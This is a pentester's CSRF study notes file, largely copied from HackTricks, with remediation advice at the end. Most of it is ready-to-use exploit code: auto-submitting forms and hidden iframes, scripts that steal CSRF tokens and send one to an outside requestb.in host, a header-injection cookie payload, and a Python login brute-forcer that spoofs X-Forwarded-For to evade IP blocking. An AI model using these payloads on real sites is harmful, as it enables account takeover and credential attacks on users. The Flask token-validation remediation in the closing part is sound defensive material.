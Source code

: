 ## Guide 
Cross-Site Request Forgery (CSRF)

*how to*

**Attack is on users(victim)**
    - attacker sends link
    - User clicks on the link while logged into the app
    - perform actions using the victim as a proxy
    - send victim a malicous link > {change password link is sent to the attacker instead of the victim}

    Attacker sends link with our email to the victim > victim clicks on it, and the link attaches to the session cookie > that session cookie is sent to the backend, which reads "attacker@domain.com > then the backend sends back the info to the attacker, instead of the victim > attacker uses the "forgot password" function.
    Attacker sends a webpage while the invisble 'iframe' is running in the background, which is the CSRF script > which changes the email address for the attacker

**poc** 
Burp Suite CSRF PoC generator



*if*
    Relevant action: 
        Must be able to do something > {email function:}

    Cookie-Based session handling: 
        Must use cookies for sesesion management
    
    No unpredictable request parameters

**http header injection**
    you can inject a cookie into the victims browser > add same value of that cookie as an CSRF token

**note**
    Although CSRF is normally described in relation to cookie-based session handling, it also arises in other contexts where the application automatically adds some user credentials to requests, such as HTTP Basic authentication and certificate-based authentication. 

*method*
    1. Run an Auto Scan with Burp-Pro
    2. Map the App > review findings > do any meet the requirements from **if > create PoC script to teste the exploit
        2.a: PoC script will be run with a GET request:
                GET:: <img> tag with src attribute set to vulnerable URL
                POST:: form with hidden fields for all the required parameters and the target set to vulnerable URL

*rem*
    - adding CSRF tokens
    - don't use GET method to submit data to the application

**primary**
CRF TOKENS

    - generated
        * unpredictable with high entropy, similar to session tokens
        * tied to the user's session (to avoid from the attacker creating their own CSRF token)
        * validate before the relevant action is executed

    - transfered
        * Hidden field of an HTML form that is submitted using a POST method
        * Custom request header
        * Tokens submitted in the URL query string are less secure (not as safe)
        * Tokens generally should NOT be transmitted within cookies (not as safe)

    - validated
        * Generated tokens should be stored server-side within the user's session data
        * When performing a request, a validation should be performed that verifies that the submitted token matches the value that is stored in the user's session
        * Validation should be performed regardless of HTTP method or content type of the request
        * If a token is not submitted, the request should be rejected

**additional**

**weak**



*sandbox*
----------------------- 
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
----------------------- 

-----------------------
<html>
  <!-- POST:: CSRF Proof of Concept - generated by Burp Suite Professional **HACKTRICKS** --> 
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://example.com/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="asd&#64;asd&#46;asd" />
      <input type="hidden" name="csrf" value="tZqZzQ1tiPj8KFnO4FOAawq7UsYzDk8E" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://example.com/?search=term%0d%0aSet-Cookie:%20csrf=tZqZzQ1tiPj8KFnO4FOAawq7UsYzDk8E" onerror="document.forms[0].submit();"/>
  </body>
</html>
-----------------------

-----------------------
<!-- GET:: request -->
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form method="GET" action="https://victim.net/email/change-email">
      <input type="hidden" name="email" value="some@email.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
-----------------------

-----------------------
> <img src=https://bank.com/email/change?email=attacker@test.com />
-----------------------

*How to construct a CSRF attack*

Manually creating the HTML needed for a CSRF exploit can be cumbersome, particularly where the desired request contains a large number of parameters, or there are other quirks in the request. The easiest way to construct a CSRF exploit is using the CSRF PoC generator that is built in to Burp Suite Professional:

    Select a request anywhere in Burp Suite Professional that you want to test or exploit.
    
        From the right-click context menu, select Engagement tools / Generate CSRF PoC.
    
            Burp Suite will generate some HTML that will trigger the selected request (minus cookies, which will be added automatically by the victim's browser).
    
                You can tweak various options in the CSRF PoC generator to fine-tune aspects of the attack. You might need to do this in some unusual situations to deal with quirky features of requests.
    
                    Copy the generated HTML into a web page, view it in a browser that is logged in to the vulnerable website, and test whether the intended request is issued successfully and the desired action occurs.

----------------------

*resources*
https://owasp.org/www-community/attacks/csrf
 

https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html


**************************************************** HACK TRICKS ********************************************************************

*link*
https://book.hacktricks.xyz/pentesting-web/csrf-cross-site-request-forgery





*Exploit Examples*
Exfiltrating CSRF Token

If a CSRF token is being used as defence you could try to exfiltrate it abusing a XSS vulnerability or a Dangling Markup vulnerability.
GET using HTML tags

<img src="http://google.es?param=VALUE" style="display:none" />
<h1>404 - Page not found</h1>
The URL you are requesting is no longer available

Other HTML5 tags that can be used to automatically send a GET request are:

<iframe src="..."></iframe>
<script src="..."></script>
<img src="..." alt="">
<embed src="...">
<audio src="...">
<video src="...">
<source src="..." type="...">
<video poster="...">
<link rel="stylesheet" href="...">
<object data="...">
<body background="...">
<div style="background: url('...');"></div>
<style>
  body { background: url('...'); }
</style>
<bgsound src="...">
<track src="..." kind="subtitles">
<input type="image" src="..." alt="Submit Button">

Form GET request

<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form method="GET" action="https://victim.net/email/change-email">
      <input type="hidden" name="email" value="some@email.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>

Form POST request

<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form method="POST" action="https://victim.net/email/change-email" id="csrfform">
      <input type="hidden" name="email" value="some@email.com" autofocus onfocus="csrfform.submit();" /> <!-- Way 1 to autosubmit -->
      <input type="submit" value="Submit request" />
      <img src=x onerror="csrfform.submit();" /> <!-- Way 2 to autosubmit -->
    </form>
    <script>
      document.forms[0].submit(); //Way 3 to autosubmit
    </script>
  </body>
</html>

Form POST request through iframe

<!-- 
The request is sent through the iframe withuot reloading the page 
-->
<html>
  <body>
  <iframe style="display:none" name="csrfframe"></iframe> 
    <form method="POST" action="/change-email" id="csrfform" target="csrfframe">
      <input type="hidden" name="email" value="some@email.com" autofocus onfocus="csrfform.submit();" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>

Ajax POST request

<script>
var xh;
if (window.XMLHttpRequest)
  {// code for IE7+, Firefox, Chrome, Opera, Safari
  xh=new XMLHttpRequest();
  }
else
  {// code for IE6, IE5
  xh=new ActiveXObject("Microsoft.XMLHTTP");
  }
xh.withCredentials = true;
xh.open("POST","http://challenge01.root-me.org/web-client/ch22/?action=profile");
xh.setRequestHeader('Content-type', 'application/x-www-form-urlencoded'); //to send proper header info (optional, but good to have as it may sometimes not work without this)
xh.send("username=abcd&status=on");
</script>

<script>
//JQuery version
$.ajax({
  type: "POST",
  url: "https://google.com",
  data: "param=value&param2=value2"
})
</script>

multipart/form-data POST request

myFormData = new FormData();
var blob = new Blob(["<?php phpinfo(); ?>"], { type: "text/text"});
myFormData.append("newAttachment", blob, "pwned.php");
fetch("http://example/some/path", {
    method: "post",
    body: myFormData,
    credentials: "include",
    headers: {"Content-Type": "application/x-www-form-urlencoded"},
    mode: "no-cors"
});

multipart/form-data POST request v2

// https://www.exploit-db.com/exploits/20009
var fileSize = fileData.length,
boundary = "OWNEDBYOFFSEC",
xhr = new XMLHttpRequest();
xhr.withCredentials = true;
xhr.open("POST", url, true);
//  MIME POST request.
xhr.setRequestHeader("Content-Type", "multipart/form-data, boundary="+boundary);
xhr.setRequestHeader("Content-Length", fileSize);
var body = "--" + boundary + "\r\n";
body += 'Content-Disposition: form-data; name="' + nameVar +'"; filename="' + fileName + '"\r\n';
body += "Content-Type: " + ctype + "\r\n\r\n";
body += fileData + "\r\n";
body += "--" + boundary + "--";

//xhr.send(body);
xhr.sendAsBinary(body);

Form POST request from within an iframe

<--! expl.html -->

<body onload="envia()">
<form method="POST"id="formulario" action="http://aplicacion.example.com/cambia_pwd.php">
<input type="text" id="pwd" name="pwd" value="otra nueva">
</form>
<body>
<script>
function envia(){document.getElementById("formulario").submit();}
</script>

<!-- public.html -->
<iframe src="2-1.html" style="position:absolute;top:-5000">
</iframe>
<h1>Sitio bajo mantenimiento. Disculpe las molestias</h1>

Steal CSRF Token and send a POST request

function submitFormWithTokenJS(token) {
    var xhr = new XMLHttpRequest();
    xhr.open("POST", POST_URL, true);
    xhr.withCredentials = true;

    // Send the proper header information along with the request
    xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");

    // This is for debugging and can be removed
    xhr.onreadystatechange = function() {
        if(xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
            //console.log(xhr.responseText);
        }
    }

    xhr.send("token=" + token + "&otherparama=heyyyy");
}

function getTokenJS() {
    var xhr = new XMLHttpRequest();
    // This tels it to return it as a HTML document
    xhr.responseType = "document";
    xhr.withCredentials = true;
    // true on the end of here makes the call asynchronous
    xhr.open("GET", GET_URL, true);
    xhr.onload = function (e) {
        if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
            // Get the document from the response
            page = xhr.response
            // Get the input element
            input = page.getElementById("token");
            // Show the token
            //console.log("The token is: " + input.value);
            // Use the token to submit the form
            submitFormWithTokenJS(input.value);
        }
    };
    // Make the request
    xhr.send(null);
}

var GET_URL="http://google.com?param=VALUE"
var POST_URL="http://google.com?param=VALUE"
getTokenJS();

Steal CSRF Token and send a Post request using an iframe, a form and Ajax

<form id="form1" action="http://google.com?param=VALUE" method="post" enctype="multipart/form-data">
<input type="text" name="username" value="AA">
<input type="checkbox" name="status" checked="checked">
<input id="token" type="hidden" name="token" value="" />
</form>

<script type="text/javascript">
function f1(){
    x1=document.getElementById("i1");
    x1d=(x1.contentWindow||x1.contentDocument);
    t=x1d.document.getElementById("token").value;
    
    document.getElementById("token").value=t;
    document.getElementById("form1").submit();
}
</script> 
<iframe id="i1" style="display:none" src="http://google.com?param=VALUE" onload="javascript:f1();"></iframe>

Steal CSRF Token and sen a POST request using an iframe and a form

<iframe id="iframe" src="http://google.com?param=VALUE" width="500" height="500" onload="read()"></iframe>

<script> 
function read()
{
    var name = 'admin2';
    var token = document.getElementById("iframe").contentDocument.forms[0].token.value;
    document.writeln('<form width="0" height="0" method="post" action="http://www.yoursebsite.com/check.php"  enctype="multipart/form-data">');
    document.writeln('<input id="username" type="text" name="username" value="' + name + '" /><br />');
    document.writeln('<input id="token" type="hidden" name="token" value="' + token + '" />');
    document.writeln('<input type="submit" name="submit" value="Submit" /><br/>');
    document.writeln('</form>');
    document.forms[0].submit.click();
}
</script>

Steal token and send it using 2 iframes

<script>
var token;
function readframe1(){
  token = frame1.document.getElementById("profile").token.value;
  document.getElementById("bypass").token.value = token
  loadframe2();
}
function loadframe2(){
  var test = document.getElementbyId("frame2");
  test.src = "http://requestb.in/1g6asbg1?token="+token;
}
</script>

<iframe id="frame1" name="frame1" src="http://google.com?param=VALUE" onload="readframe1()" 
sandbox="allow-same-origin allow-scripts allow-forms allow-popups allow-top-navigation"
height="600" width="800"></iframe>

<iframe id="frame2" name="frame2" 
sandbox="allow-same-origin allow-scripts allow-forms allow-popups allow-top-navigation"
height="600" width="800"></iframe>
<body onload="document.forms[0].submit()">
<form id="bypass" name"bypass" method="POST" target="frame2" action="http://google.com?param=VALUE" enctype="multipart/form-data">
  <input type="text" name="username" value="z">
  <input type="checkbox" name="status" checked="">        
  <input id="token" type="hidden" name="token" value="0000" />
  <button type="submit">Submit</button>
</form>

POSTSteal CSRF token with Ajax and send a post with a form

<body onload="getData()">

<form id="form" action="http://google.com?param=VALUE" method="POST" enctype="multipart/form-data">
  <input type="hidden" name="username" value="root"/>
  <input type="hidden" name="status" value="on"/>
  <input type="hidden" id="findtoken" name="token" value=""/>
  <input type="submit" value="valider"/>
</form>

<script>
var x = new XMLHttpRequest();
function getData() {
  x.withCredentials = true;
  x.open("GET","http://google.com?param=VALUE",true);
  x.send(null); 
}
x.onreadystatechange = function() {
  if (x.readyState == XMLHttpRequest.DONE) {
    var token = x.responseText.match(/name="token" value="(.+)"/)[1];
    document.getElementById("findtoken").value = token;
    document.getElementById("form").submit();
  }
}
</script>

CSRF with Socket.IO

<script src="https://cdn.jsdelivr.net/npm/socket.io-client@2/dist/socket.io.js"></script>
<script>
let socket = io('http://six.jh2i.com:50022/test');

const username = 'admin'

socket.on('connect', () => {
    console.log('connected!');
    socket.emit('join', {
        room: username
    });
  socket.emit('my_room_event', {
      data: '!flag',
      room: username
  })

});
</script>

CSRF Login Brute Force

The code can be used to Brut Force a login form using a CSRF token (It's also using the header X-Forwarded-For to try to bypass a possible IP blacklisting):

import request
import re
import random

URL = "http://10.10.10.191/admin/"
PROXY = { "http": "127.0.0.1:8080"}
SESSION_COOKIE_NAME = "BLUDIT-KEY"
USER = "fergus"
PASS_LIST="./words"

def init_session():
    #Return CSRF + Session (cookie)
    r = requests.get(URL)
    csrf = re.search(r'input type="hidden" id="jstokenCSRF" name="tokenCSRF" value="([a-zA-Z0-9]*)"', r.text)
    csrf = csrf.group(1)
    session_cookie = r.cookies.get(SESSION_COOKIE_NAME)
    return csrf, session_cookie

def login(user, password):
    print(f"{user}:{password}")
    csrf, cookie = init_session()
    cookies = {SESSION_COOKIE_NAME: cookie}
    data = {
        "tokenCSRF": csrf,
        "username": user,
        "password": password,
        "save": ""
    }
    headers = {
        "X-Forwarded-For": f"{random.randint(1,256)}.{random.randint(1,256)}.{random.randint(1,256)}.{random.randint(1,256)}"
    }
    r = requests.post(URL, data=data, cookies=cookies, headers=headers, proxies=PROXY)
    if "Username or password incorrect" in r.text:
        return False
    else:
        print(f"FOUND {user} : {password}")
        return True

with open(PASS_LIST, "r") as f:
    for line in f:
        login(USER, line.strip())

Tools

    https://github.com/0xInfection/XSRFProbe

    https://github.com/merttasci/csrf-poc-generator

References

    https://portswigger.net/web-security/csrf

    https://portswigger.net/web-security/csrf/bypassing-token-validation

    https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses

    https://www.hahwul.com/2019/10/bypass-referer-check-logic-for-csrf.html







*remidation_gpt*

Validating a CSRF token is an essential step in mitigating Cross-Site Request Forgery (CSRF) attacks. Here's a detailed step-by-step guide on how to validate a CSRF token and remediate CSRF vulnerabilities in a web application:
Validating a CSRF Token

    Generate a CSRF Token:
        On the server side, generate a unique token for each user session. This token should be unpredictable and securely stored on the server.
        Example in Python (using Flask):

        python

    from flask import session
    import os
    import hashlib

    def generate_csrf_token():
        if '_csrf_token' not in session:
            session['_csrf_token'] = hashlib.sha256(os.urandom(64)).hexdigest()
        return session['_csrf_token']

Include the CSRF Token in Forms and Requests:

    Add the CSRF token as a hidden field in all forms that perform state-changing operations (POST, PUT, DELETE).
    Example in HTML:

    html

<form method="POST" action="/submit">
    <input type="hidden" name="csrf_token" value="{{ csrf_token }}">
    <!-- other form fields -->
    <input type="submit" value="Submit">
</form>

Alternatively, include the token in the HTTP headers for AJAX requests.

javascript

    $.ajax({
        type: 'POST',
        url: '/submit',
        data: { key: 'value' },
        beforeSend: function(xhr) {
            xhr.setRequestHeader('X-CSRF-Token', '{{ csrf_token }}');
        },
        success: function(response) {
            // handle success
        }
    });

Validate the CSRF Token on the Server:

    When a request is received, retrieve the token from the request and compare it with the token stored in the user’s session.
    Example in Python (using Flask):

    python

        from flask import request, abort, session

        @app.before_request
        def validate_csrf_token():
            if request.method in ["POST", "PUT", "DELETE"]:
                token = request.form.get('csrf_token') or request.headers.get('X-CSRF-Token')
                if not token or token != session.get('_csrf_token'):
                    abort(403)

Remediation Steps for a CSRF Attack

    Implement CSRF Protection Mechanism:
        Ensure that all state-changing operations require a valid CSRF token.
        Use frameworks that have built-in CSRF protection (e.g., Django, Rails, ASP.NET).

    Token Validation:
        Verify that the CSRF token is included in the request and matches the token stored in the user’s session.

    Session Management:
        Regenerate CSRF tokens periodically and upon user login.
        Ensure that the CSRF token is unique per session and not reused across sessions.

    Security Headers:
        Implement HTTP headers to mitigate CSRF attacks, such as SameSite attribute for cookies:

        http

    Set-Cookie: sessionid=abc123; SameSite=Strict

Check Referer and Origin Headers:

    Validate the Referer and Origin headers for requests to ensure they originate from the same origin.

    python

        @app.before_request
        def validate_referer_origin():
            if request.method in ["POST", "PUT", "DELETE"]:
                referer = request.headers.get('Referer')
                origin = request.headers.get('Origin')
                if referer and not referer.startswith(request.host_url):
                    abort(403)
                if origin and not origin == request.host_url[:-1]:
                    abort(403)

    Educate Users and Developers:
        Educate your development team on CSRF vulnerabilities and best practices for prevention.
        Ensure that developers are aware of the importance of including and validating CSRF tokens.

Conclusion

Implementing and validating CSRF tokens are fundamental steps in protecting a web application from CSRF attacks. By following these guidelines and using built-in CSRF protection mechanisms provided by web frameworks, you can effectively mitigate the risk of CSRF vulnerabilities in your application.
